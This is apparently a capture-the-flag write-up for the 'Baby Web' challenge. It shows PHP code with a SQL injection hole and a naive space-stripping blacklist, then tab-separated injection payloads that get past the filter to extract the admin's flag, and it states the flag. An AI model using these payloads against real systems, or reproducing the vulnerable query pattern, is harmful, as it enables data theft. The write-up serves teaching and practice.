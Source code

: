 # Baby Web
Web

## Challenge 
> It is all in the challenge.

> http://ctf.pwn.sg:8180

> *Creator - quanyang (@quanyang)*

![ss1.png](ss1.png)

## Solution

	The flag is in the flag column of the user 'admin'.
	View source here.


We can't use these keywords and can't use spaces (will be stripped off)

	$username = str_replace(" ","", $username);
    $array = array("=", "union", "join", "select", "or", "from", "insert", "delete");

And we can inject SQL into this

	$sql = "SELECT username FROM users WHERE username like '%$username%';";

Hence, my test query is as follows, which successfully returns the admin username

	SELECT username FROM users WHERE username like '%                  %';
	SELECT username FROM users WHERE username like '%admin%' and '%'= '%';

	admin%' and '%'= '

![ss2.png](ss2.png)


Now, let's use it to check the flag starts with value

	SELECT username FROM users WHERE username like '%                                    %';
	SELECT username FROM users WHERE username like '%admin%' and flag like '%' and '%'= '%';

But wait we can't use spaces... 

See the following:

- https://stackoverflow.com/questions/37167239/can-you-write-a-sql-statement-without-spaces-between-keywords
- https://www.quora.com/Is-it-possible-to-make-a-SQL-query-with-no-spaces
- https://security.stackexchange.com/questions/127655/would-removing-spaces-in-a-string-protect-against-sql-injection


```
	No. Removing spaces would not prevent SQL injection, as there are many other ways to make the parser process your input. 

	...

	Now let's imagine that the attacker used another form of white space, i.e. tabs:
	Removing the spaces would still allow the injection through.
```

So now we can bruteforce the flag char by char but replace the spaces with tabs


	admin%'	and	flag	like	'CrossCTF{%'	and	'%'= '

And it works!

Now write a script to bruteforce...

	Final flag:  CrossCTF{simple\_sql\_injection\_as\_warmup}

## Flag

	CrossCTF{simple_sql_injection_as_warmup}